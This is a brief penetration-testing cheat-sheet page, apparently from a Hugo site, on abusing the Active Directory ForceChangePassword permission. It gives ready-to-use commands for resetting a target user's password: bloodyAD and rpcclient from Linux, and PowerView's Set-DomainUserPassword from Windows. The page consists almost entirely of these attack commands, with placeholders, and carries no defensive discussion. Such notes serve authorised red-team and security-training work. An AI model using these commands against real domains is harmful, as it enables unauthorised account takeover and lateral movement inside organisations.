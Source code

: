 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["ForceChangePassword", "active driectory", "ad", "Windows"]
---
```


### Change target user password (From Linux)

{{< tab set1 tab1 active >}}BloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}rpcclient{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> set password <TARGET_USER> '<NEW_PASSWORD>'
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <TARGET_USER_NEW_PASSWORD>'
```

</div>

{{< /tabcontent >}}

### Change target user password (From Windows)

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView.ps1

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Change Target User Password

<div>

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

</div>

{{< /tabcontent >}}

<br>